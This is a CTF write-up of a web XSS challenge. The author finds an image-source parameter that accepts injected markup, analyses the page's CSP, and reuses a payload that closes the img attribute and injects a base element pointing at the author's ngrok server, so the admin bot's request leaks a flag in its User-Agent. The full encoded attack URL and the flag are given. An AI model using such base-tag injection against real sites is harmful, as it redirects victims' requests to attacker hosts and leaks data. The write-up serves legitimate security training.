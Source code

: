 🚩 5th Challenge

### Question

![1.png](./assets/1.png)
> Link: http://54.205.207.242/

### Solution
- This is how the website looks like
- ![2.png](./assets/2.png)
- The link gives us good vibes
- ![3.png](./assets/3.png "3.png")
- It's just another XSS chall :)
- Looking around in the HTML source code we see that it's choosing the image from links/paths except that when you provide the internal link `/img/rasengan.jpg` it will not work and say `No hacker` as seen below, so it seems to only work for external links
- ![4.png](./assets/4.png)
- Coming to CSP part which is always to be considered when you're working with XSS exploits
- In the code we find line CSP line 
- ![5.png](./assets/5.png)
- `script-src 'nonce-xDZxYq7Qzayc4Z';connect-src 'self';style-src 'self';font-src 'self';object-src 'none';base-uri 'none'`
- Taking that to our friend [CSP-evaluator](https://csp-evaluator.withgoogle.com/) it shows it's all good
- ![6.png](./assets/6.png)
- Hmmm! searching time again
- I've actually solved very similar chall made by the same author before in another CTF and it was using the base element XSS but then it wasn't included in the CSP protection ([Writeup](https://github.com/AyhamAl-Ali/CTF-Dump/tree/main/CTFs/NCSCJo-CyberWarriors/Web/Xo%20So%20So)) So I had an idea about base element so I tried my old payload again (from the writeup link above) except this time the flag is in User-Agent as mentioned in the description while the old chall had another solution requires some more steps 
- Payload:
```css
'><base href='https://b44a-2a01-9700-1a93-db00-5acb-e21c-32bb-f479.eu.ngrok.io'>
```
![7.png](./assets/7.png)
- With `'>`we closed the current img `src` attribute
- With `<base href='https://b44a-2a01-9700-1a93-db00-5acb-e21c-32bb-f479.eu.ngrok.io'>`we opened a new element, base element which is the way we thought it would work from a previous writeup with the link of our ngrok server
- Final url: `http://54.205.207.242/index.php?src=%27%3E%3Cbase%20href=%27https://b44a-2a01-9700-1a93-db00-5acb-e21c-32bb-f479.eu.ngrok.io/%27%3E` (url encoding is important)
- When I pasted the link in the bot to report it actually worked! and my server received a request
- ![8.png](./assets/8.png)
- ![9.png](./assets/9.png)
- VOILAAAA!!!
> Flag: `FLAG{You_StoLe_AmaDO_ForbiDDen_CybOrg_Jutsu}`